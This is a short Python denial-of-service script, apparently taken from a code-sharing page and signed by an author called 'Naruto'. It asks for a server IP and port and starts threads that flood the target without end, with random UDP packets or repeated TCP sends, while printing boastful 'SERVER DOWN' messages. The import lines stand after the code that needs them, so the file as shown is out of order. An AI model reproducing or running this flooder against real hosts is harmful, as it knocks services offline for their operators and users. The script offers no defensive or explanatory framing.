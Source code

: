 
print("DDos")
ip= str(input("                   X Server ip X :"))
port= int(input("                   X port X :"))
choice = str(input("                   X DDoS Attack?? (y/n) X :"))
times= int(input("                   X Paket X :"))
threads= int(input("                   X threads X :"))
def run():
	data = random._urandom(1024)
	i = random.choice(("[-]","[•]","[×]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +"TEAM X TA9TA7EM!!!!!!")
		except:
			print("[!] SERVER DOWN!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[-]","[+]","[x]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +"TEAM X TA9TA7EM!!!!!!")
		except:
			s.close()
			print("[*] SERVER DOWN")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
			#AUTHOR : Naruto
#SUBSCRIBE Dev Naruto
import random
import threading
import codecs
import struct
import time
import socket
import sys
import os

